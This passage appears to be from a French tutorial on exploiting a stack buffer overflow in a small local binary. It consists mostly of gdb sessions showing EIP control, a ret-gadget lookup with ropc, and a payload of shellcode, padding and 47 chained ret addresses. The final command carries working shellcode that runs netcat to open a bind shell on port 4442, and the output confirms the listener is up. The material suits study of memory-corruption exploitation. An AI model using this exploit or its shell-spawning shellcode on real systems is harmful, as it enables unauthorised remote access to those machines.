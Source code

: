 Jouons la vulnérabilité et examinons la stack au moment du plantage :

```
	gdb$ r `perl -e 'print "ABCD"."A"x268;'` 400
	Starting program: /home/tosh/Downloads/a.out `perl -e 'print "ABCD"."A"x268;'` 400
	warning: Could not load shared library symbols for linux-gate.so.1.
	Do you need "set solib-search-path" or "set sysroot"?

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0xBFFFF8F0  EBX: 0xB7FB9000  ECX: 0x00000000  EDX: 0x00000000  o d I t s z a p c
	  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xBFFFFA00  EIP: 0x41414141
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x41414141
	0x41414141 in ?? ()
	gdb$ x/50xw $esp
	0xbffffa00:     0x30303400      0x47445800      0x4e54565f      0x00313d52
	0xbffffa10:     0x5f485353      0x4e454741      0x49505f54      0x31333d44
	0xbffffa20:     0x44580037      0x45535f47      0x4f495353      0x44495f4e
	0xbffffa30:     0x4400313d      0x544b5345      0x535f504f      0x54524154
	0xbffffa40:     0x495f5055      0x77613d44      0x6d6f7365      0x74612f65
	0xbffffa50:     0x2f6d7265      0x2d333433      0x61722d30      0x3030646e
	0xbffffa60:     0x49545f6d      0x3933454d      0x00393137      0x4c454853
	0xbffffa70:     0x622f3d4c      0x622f6e69      0x00687361      0x4d524554
	0xbffffa80:     0x00000003      0x08048330      0x00000000      0x08048351
	0xbffffa90:     0x08048457      0x00000003      0xbffffab4      0x08048490
	0xbffffaa0:     0x08048500      0xb7fed040      0xbffffaac      0x0000001c
	0xbffffab0:     0x00000003      0xbffffc07      0xbffffc22      0xbffffd33
	0xbffffac0:     0x00000000      0xbffffd37
	gdb$ x/s 0xbffffc22
	0xbffffc22:     "ABCD", 'A' ...
	gdb$
```

On voit qu'à l'adresse esp+0xb8, on a l'adresse de notre buffer sur la stack. En dépilant 47 valeurs, on pourra alors jumper sur notre payload.
Pour dépiler une valeur, rien de plus simple, il faut sauter sur une instruction ret. En chaînant ces instructions, on va pouvoir dépiler les valeurs situées en haut de la pile.

Récupérons l'adresse d'une instruction ret :

```
	$ ropc -f ./a.out -g -F -d 1
	0x080482be  -> ret ;
```
Nous avons plus qu'à exploiter la vulnérabilité, notre payload ressemblera à :

```
	[ SHELLCODE | PADDING | RET (saved EIP) | 46xRET ]
```

Testons :

```
	./a.out `perl -e 'print "\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69 \
                             \x6e\x68\x2f\x75\x73\x72\x89\xe3\x52\x68\x2d\x6c \
                             \x76\x70\x89\xe0\x52\x68\x34\x34\x34\x32\x89\xe1 \
                             \x52\x68\x2d\x76\x76\x65\x89\xe5\x52\x68\x2f\x2f \
                             \x73\x68\x68\x2f\x62\x69\x6e\x89\xe7\x52\x57\x55 \
                             \x51\x50\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80" .
                             "A"x197 . "\xbe\x82\x04\x08"x47 . " " . (47*4+268);'`
	Listening on any address 4442 (saris)
```
